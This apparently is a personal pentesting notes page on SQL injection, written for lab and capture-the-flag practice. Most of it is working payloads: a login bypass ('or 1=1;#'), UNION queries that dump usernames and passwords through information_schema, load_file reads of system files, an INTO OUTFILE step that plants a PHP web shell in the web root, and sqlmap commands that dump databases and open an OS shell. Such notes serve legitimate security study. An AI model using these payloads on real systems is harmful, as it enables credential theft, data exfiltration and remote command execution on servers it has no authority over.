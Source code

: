 ```yaml
---
description: >-
  SQL Injection
title:  SQL Injection             # Add title here
date: 2023-02-11 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, SQL Injection]                     # Change Templates to Writeup
tags: [exploitation, sql injection]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### SQLi Authentication Bypass
A SQL query for a normal login, then, looks like this:
```bash
select * from users where name = 'tom' and password = 'jones';
```

If we control the value being passed in as _$user_, we can subvert the logic of the query by submitting `tom' or 1=1;#` as our username, which creates a query like this:
```bash
select * from users where name = 'tom' or 1=1;#' and password = 'jones';
```
SQLi payload:
```bash
tom' or 1=1;#
```
The pound character (#) is a comment marker in MySQL/MariaDB. It effectively removes the rest of the statement, so we're left with:
```bash
select * from users where name = 'tom' or 1=1;
```
If we do encounter errors when our payload is returning multiple rows, we can instruct the query to return a fixed number of records with the LIMIT statement:
```bash
select * from users where name = 'tom' or 1=1 LIMIT 1;#
```

### SQLite3
#### UNION Select
SQLite3 entrypoint:
```bash
http://192.168.186.52/debug.php?id=%27%27%20union%20select%20id,username,username,password,flag%20from%20users;--%20-
```
We need to know column and table names if we are going to extract data from them. This helps us execute a more surgical data extraction

We can add an _order by_ clause to the query for simple enumeration. This clause tells the database to sort the results of the query by the values in one or more columns. We can use column names or the column index in the query.

Let's submit the following URL:
```bash
http://10.11.0.22/debug.php?id=1 order by 1
```

This query instructs the database to sort the results based on the values in the first column. If there is at least one column in the query, the query is valid and the page will render without errors. We can submit multiple queries, incrementing the _order by_ clause each time until the query generates an error, indicating that the maximum number of columns returned by the query in question has been exceeded. Remember, a query can select all the columns in a table or just a subset of columns. We need to rely on this trial-and-error approach if we do not have access to the source query.

SQLi Payload:
```bash
'' union select id,time,username,password,flag from users;-- -
```
SQLi Payload:
After id=:
```bash
http://10.11.0.22/debug.php?id=1 union select 1,2,3,4,5 from users;-- -
```
SQLi Payload:
```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
```

### MariaDB
The following examples use commands specific to MariaDB. However, most other databases offer similar functionality with slightly different syntax. Regardless of what database software we target, it's best to understand the platform-specific commands.

For example, to output the version of MariaDB, we can use this URL:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
```

This should output a "2" in the name field and the database version number in the comment field:

![Description](/assets/img/Pasted image 20220905185827.png)

Good. It looks like that's working. Next, let's output the current database user with this query:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()
```

This query reveals that the root user is being used for database queries:

![Description](/assets/img/Pasted image 20220905185937.png)

We can enumerate database tables and column structures through the _information_schema_. The information schema stores information about the database, like table and column names. We can use it to get the layout of the database so that we can craft better payloads to extract sensitive data. The query for this would look similar to the following:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```

This should output a lot of data, most of which references information about the default objects in MariaDB. It will also include the table names but we will need to scroll through the output to find them.

![Description](/assets/img/Pasted image 20220905185910.png)

The _users_ table looks particularly interesting. Let’s target that table and retrieve the column names with the following query:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

This outputs all the column names for the _users_ table:
![Description](/assets/img/Pasted image 20220905190646.png)

Armed with this information, we can extract the usernames and passwords from the table. We know that the original query selects three columns and the web page displays columns two and three. If we update our union payload, we can display the usernames in column two and the passwords in column three.

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users
```

This will output the database usernames in the name field and passwords in comments field:

![Description](/assets/img/Pasted image 20230331135253.png)

##### SQL Injection to Code Execution
Read a file:
```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

Using the _INTO OUTFILE_ function to create a malicious PHP file in the server’s web root. Based on error messages we've already seen, we should know the location of the web root.

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE ' C:/xampp/htdocs/site2/public/backdoor.php'
```
If this succeeds, the file should be placed in the web root:

![Description](/assets/img/Pasted image 20220905191039.png)

This command produces an error message but this doesn't necessarily mean the file creation was unsuccessful. 

### SQLMAP
Test if a paramater is vulnerable:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id"
```
List databases:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" --dbs
```
List tables from a specific database:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> --tables
```
List columns from a specific table:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> -T <table> --columns
```
Dump the database:
List tables from a specific database:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> -T <table> --dump
```
Execute commands:
```bash
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```
SQLi with POST parameter:
```bash
sudo sqlmap -u "https://streamio.htb/login.php" --data "username=&password=" -p username --os-command
```
Examples:
[[StreamIO#^6ca422]]

### WebSocket

It is possible to execute an SQL Injection through a websocket. For further details read [Websocket Exploitation](https://shuciran.github.io/posts/Websocket-Exploitation) post.

### References 
[PayloadAllTheThings SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
[SQLite database structure](https://www.sqlite.org/schematab.html)